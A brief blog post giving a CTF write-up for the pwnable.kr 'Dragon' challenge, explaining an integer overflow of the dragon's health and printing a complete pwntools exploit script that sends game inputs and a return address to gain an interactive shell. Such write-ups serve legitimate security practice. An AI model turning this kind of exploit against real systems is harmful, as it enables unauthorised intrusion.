 ```yaml
---
layout: post
comments: true
title: Pwnable.kr - Dragon
---
```


[Pwnable.kr](http://pwnable.kr) - Rookiss category.

We can defeat the dragons by overflowing their health above 127. So, choose mage, use it to defeat mama dragon. Then send in ROP
chain as new name high score.

Coded in python

```
#!/usr/bin/python
from pwn import *

p = remote("pwnable.kr",9004)

p.sendline("1")
p.sendline("1")
p.sendline("1")
p.sendline("1")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

payload = p32(0x08048dbf)
p.sendline(payload)
p.interactive()
```
